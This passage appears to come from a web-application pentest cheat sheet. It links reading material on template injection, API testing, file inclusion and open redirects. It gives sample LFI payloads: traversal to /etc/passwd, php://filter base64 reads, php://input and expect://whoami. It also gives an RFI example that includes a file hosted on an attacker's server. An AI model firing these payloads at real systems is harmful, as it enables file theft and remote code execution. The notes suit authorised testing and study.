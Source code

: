 > **Resources**

[Server Side Template Injection](http://blog.portswigger.net/2015/08/server-side-template-injection.html)

[Server Side Template Injection: RCE for the Modern WebApp](https://portswigger.net/knowledgebase/papers/ServerSideTemplateInjection.pdf)

##### API

> **Resources**

[Cracking & Fixing REST APIs](http://www.sempf.net/post/Cracking-and-Fixing-REST-APIs)

##### LFI

> ###### Resources

[Local File Inclusion Testing Techniques](https://www.exploit-db.com/docs/40992.pdf)

[Insecure PHP Functions & their Exploits \(LFI/RFI\)](https://0xzoidberg.wordpress.com/category/security/lfi-rfi/)

[LFI and RFI -- The Website Security Vulnerability](https://www.hackersonlineclub.com/lfi-rfi/)

[Local File Inclusion to Remote Code Execution](http://resources.infosecinstitute.com/local-file-inclusion-code-execution/)

[Local File Inclusion to Remote Code Execution Advanced Exploitation PROC Shortcuts](http://www.ush.it/2008/08/18/lfi2rce-local-file-inclusion-to-remote-code-execution-advanced-exploitation-proc-shortcuts/)

> ###### Examples

file:///etc/passwd
../../../etc/passwd
php://filter/convert.base64-encode/resource=admin.php
php://filter/convert.base64-encode/resource=../../../../../etc/passwd
php://input
    send post data
expect://whoami



##### Open Redirects

> ###### Resources

[Open URL Redirects](https://zseano.com/tutorials/1.html)

##### RFI

Kali> echo "<?php phpinfo(); ?>" > evil.txt
http://$TARGET/index.php?path=http://$ATTACKER/evil.txt



##### Padding Oracle Attack

> ###### Resources
